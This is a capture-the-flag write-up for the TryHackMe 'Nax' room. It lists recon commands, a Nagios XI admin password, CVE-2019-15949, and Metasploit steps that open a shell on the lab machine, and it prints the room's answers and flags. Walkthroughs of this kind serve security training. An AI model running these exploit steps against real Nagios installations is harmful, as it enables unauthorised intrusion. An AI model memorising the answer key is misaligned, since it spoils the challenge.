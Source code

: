 # <div align="center">[Nax](https://tryhackme.com/r/room/nax)</div>
<div align="center">Identify the critical security flaw in the most powerful and trusted network monitoring software on the market, that allows an user authenticated execute remote code execution.</div>

<div align="center">
<img src="https://github.com/user-attachments/assets/7f2bec20-9377-4463-abf7-12602b548fc3" height="200"></img>
</div>


## Task 1. Flag

Are you able to complete the challenge?

### What hidden file did you find?
```
PI3T.Png
```
* ```nmap -sSCV <IP>```
* ```gobuster dir -u http://<ip>:80/ -w /path-to-wordlist -x txt,php,html```
* ```curl -s http://<IP>```
* ```python3 -c "print(''.join([chr(i) for i in [47, 80, 73, 51, 84, 46, 80, 78, 103]]))"```

### Who is the creator of the file?
```
Piet Mondrian
```
* ```exiftool PI3T.PNg```
### If you get an error running the tool on your downloaded image about an unknown ppm format -- open it with gimp or another paint program and export to ppm format, and try again!
```
No answer needed
```
### What is the username you found?
```
nagiosadmin
```
* ```./npiet /data/tmp/files/PI3T.ppm```
### What is the password you found?
```
n3p3UQ&9BjLp4$7uhWdY
```
### What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000
```
CVE-2019-15949
```
* ```searchsploit ngios XI -w```
### Now that we've found our vulnerability, let's find our exploit. For this section of the room, we'll use the Metasploit module associated with this exploit. Let's go ahead and start Metasploit using the command `msfconsole`.
```
No answer needed
```
* ```msfconsole```
* ```search ngios XI```
* ```use 8```
* ```show options```
* ```set LHOST AttackerIP```
* ```set RHOST MachineIP```
* ```set PASSWORD PW```
* ```run```
* ```shell```
* ```cat user.txt```
* ```cat root.txt```
### After Metasploit has started, let's search for our target exploit using the command 'search applicationame'. What is the full path (starting with exploit) for the exploitation module?
```
exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
```
### Compromise the machine and locate user.txt
```
THM{84b17add1d72a9f2e99c33bc568ae0f1}
```
### Locate root.txt
```
THM{c89b2e39c83067503a6508b21ed6e962}
```
